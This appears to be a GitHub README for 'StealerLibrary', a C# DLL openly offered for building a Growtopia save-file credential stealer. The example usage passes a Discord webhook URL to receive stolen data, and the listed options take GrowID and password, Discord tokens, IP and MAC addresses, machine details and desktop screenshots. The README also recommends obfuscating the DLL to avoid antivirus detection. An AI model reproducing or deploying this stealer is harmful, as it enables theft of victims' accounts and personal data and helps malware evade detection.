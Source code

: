# StealerLibrary
Growtopia (Save.dat) Stealer Library that let you to write a stealer with 1 line of code.

## Compiled Version: [All Releases](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't. Use obfuscator for that. (4/26 Detections)

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/837357864609199746/4wIlD35Q9QNdLGEfd9hWezQX9eAMxCBqDQcMmIBBvAtoKTjDlJAzkMaxyc1kcxaY4TpP", "Webhook Picture Url (Optional)", "Stealer Library", true, false, true, true, false, true, false, true, true);
        }
    }
}
```
1. Webhook Url
2. Webhook Picture Url (Optional)
3. Webhook Name (Optional)
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)
7. Discord Token (True/False)
8. User Name (True/False)
9. Machine Name (True/False)
10. OS Information (True/False)
11. Country (True/False)
12. Desktop Screenshot (True/False)

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
